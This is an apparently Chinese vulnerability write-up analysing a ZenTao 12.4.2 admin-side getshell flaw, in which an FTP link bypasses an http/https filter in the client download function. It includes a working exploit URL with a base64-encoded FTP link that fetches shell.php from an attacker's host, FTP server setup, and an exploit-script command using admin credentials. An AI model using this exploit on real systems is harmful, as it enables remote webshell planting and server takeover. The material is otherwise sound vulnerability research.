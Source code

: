## 前记

本文将对禅道12.4.2后台getshell漏洞进行分析，距离该版本上线已经过去2个多月，本漏洞会对12.4.2之前的版本产生影响，目前已经在新版本中修复。在复现该漏洞的时候我也读过一些网上对于该漏洞复现的文章，但是通过反复测试我发现网上所述的方法在我的环境上并不能成功复现，不知是否有情况相同的小伙伴，所以我对于漏洞点进行了审计，并成功复现，下面我们一起来分析一下。

 

## 代码分析

首先该漏洞需要后台管理员权限，所以我们首先登陆至后台。通过下图我们可以看到登陆后的界面URL为：
`http://192.168.52.141/zentaopms/www/index.php?m=my&f=index`

![img](.\iamge\t012b1edfbb5968327e.png)

我们看到后台界面分别对m以及f参数进行传参，那么不难猜出大概就是调用my类下的index方法，我们看一下该段的代码。

![img](.\iamge\t0159e9407d7b4a59e9.png)

在/module/my/lang/zh-cn.php下可以看到存在指向index的方法，这验证了我们上面猜测是正确的，那么我们下面来看一下文件下载漏洞点的代码部分。

![img](.\iamge\t01e389578003518177.png)

漏洞是发生在client类下的donwload函数中，我们定位函数至/module/client/control.php中找到该方法，本段代码大致意思就是会接收三个参数version、os、link，然后去调用**downloadZipPackage**方法进行文件下载操作，并对一些下载失败事件进行不同回显，比如downloadFail，saveClientError在上图的方法列表我们可以看到他们调用的方法的具体含义，这里就不再赘述，最后如果没有失败事件时间就会返回成功。在downloadZipPackage并不需要os方法，所以这在我们后期利用时也不需要传入该参数。

![img](https://p1.ssl.qhimg.com/t01bc3554884a1ddd3a.png)

然后继续跟进downloadZipPackage方法中，注意重点来了，漏洞真正的产生原因就在该方法中。

![img](.\iamge\t01d664441732fb42e4.png)

我们可以看到这段代码首先对传入的link参数进行了base64解码操作，这里的link参数就是我们shell的远程地址，然后下面会通过一个正则表达式进行判断，link地址是否以 http:// 或者 https:// 开头，如果存在则return返回false并退出方法，否则调用方法**parent::downloadZipPackage**，这里其实忽略了FTP这一文件下载方法，也就是说我们可以通过FTP服务代替进行文件下载操作从而绕过正则的限制。

![img](.\iamge\t01be4bcd3b62e34b7c.png)

downloadZipPackage方法就没有什么问题了，就是一段文件下载函数，会通过传入的version值创建并命名在data下创建的文件夹并将下载的文件保存在其中。

 

## 漏洞利用

那么这其实就是很清晰了，通过文章开始介绍的m和f参数的调用，我们可以对client类以及download参数进行调用，并传入download参数必要的version以及link参数就可以完成漏洞的利用了。这里的link地址是base64加密后的ftp连接地址，,比如:

**ftp://192.168.52.1/shell.php**

大家可以直接使用python的pyftpdlib模块开启FTP服务比较方便，命令:

**python -m pyftpdlib -p 21 -d .**默认开启匿名用户，不需要输入用户名密码。

![img](.\iamge\t010ff8a21f7d431f36.png)

构建exp如下:

```
http://ip/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC41Mi4xL3NoZWxsLnBocA==
```

可以看到回显弹窗保存成功，然后再到靶机中查看发现下载成功，保存路径至

```
/zentaopms/www/data/client/1/shell.php
```

![img](.\iamge\t01e196a8e5fd936c20.png)

连接木马，成功利用！

![img](.\iamge\t01f672108d970a681f.png)

 

## 漏洞利用EXP

![img](.\iamge\t01af2b24af5c3ddc4c.png)

构建命令:`python "Zentao RCE EXP.py" -H http://192.168.52.141 -U admin -P Admin888 -f 192.168.52.1`

其中-H指定目标主机，-U指定后台用户名，-P指定密码，-f指定VMnet8网卡的IP，这样虚拟机才能正常访问到物理机的FTP服务，当然如果测试环境也在虚拟机中则可以修改源码自动获取IP即可。